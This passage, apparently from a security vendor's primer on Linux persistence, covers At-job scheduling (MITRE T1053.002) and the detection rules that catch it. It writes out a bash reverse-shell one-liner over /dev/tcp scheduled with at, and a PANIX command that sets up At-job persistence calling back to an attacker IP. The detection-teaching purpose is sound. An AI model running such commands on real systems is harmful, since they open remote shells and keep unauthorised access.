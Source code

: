 To schedule a task using At, you simply provide the command to run and the time for execution. The syntax is straightforward:

```
echo "/bin/bash -c 'sh -i >& /dev/tcp/192.168.1.1/1337 0>&1'" | at now + 1 minute
```

The above example schedules a task to run one minute from the current time. The time format can be flexible, such as `at 5 PM tomorrow` or `at now + 2 hours`. At job details can be listed using the `atq` command, and specific jobs can be removed using `atrm`.

At is useful for one-time task scheduling and complements cron for users needing recurring and single-instance task scheduling solutions. MITRE specifies more information and real-world examples related to this technique in [T1053.002](https://attack.mitre.org/techniques/T1053/002/).

#### Persistence through T1053.002 - At

You can leverage the above command structure or use PANIX to set up an At job. Ensure At is installed on your system and the time settings are correct, as this might interfere with the execution. 

```
./panix.sh --at --default --ip 192.168.1.1 --port 2002 --time 14:49
job 15 at Tue Jun 11 14:49:00 2024
[+] At job persistence established.
```

By default, depending on the privileges used to run the program, a reverse connection will be established at the time interval the user specified. Looking at the events in Discover:

![Events generated as a result of At persistence establishment](/assets/images/primer-on-persistence-mechanisms/image2.png "Events generated as a result of At persistence establishment")

We see the execution of PANIX, which is creating the At job. Next, At(d) creates two files, an At job and an At spool. At the correct time interval, the At job is executed, after which the reverse connection to the attack IP is established. Looking at these events, we have fewer behavioral coverage opportunities than we have for cron, as behaviorally, it is just `/bin/sh` executing a shell command. However, we can still identify the following artifacts:

| Category | Coverage                                    |
|----------|---------------------------------------------|
| File     | [At Job Created or Modified](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_at_job_creation.toml)                  |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml) |

### T1053 - scheduled task/job: honorable mentions

Several other honorable mentions for establishing persistence through scheduled tasks/jobs include [Anacron](https://www.man7.org/linux/man-pages/man8/anacron.8.html), [Fcron](https://man.archlinux.org/man/fcron.8.en), [Task Spooler](https://manpages.ubuntu.com/manpages/xenial/man1/tsp.1.html), and [Batch](https://man7.org/linux/man-pages/man1/batch.1p.html). While these tools are less commonly leveraged by malware due to their non-default installation and limited versatility compared to cron and other mechanisms, they are still worth noting. We include behavioral detection rules for some of these in our persistence rule set. For example, Batch jobs are saved in the same location as At jobs and are covered by our "[At Job Created or Modified](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_at_job_creation.toml)" rule. Similarly, Anacron jobs are covered through our "[Cron Job Created or Modified](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_cron_job_creation.toml)" rule, as Anacron integrates with the default Cron persistence detection setup.
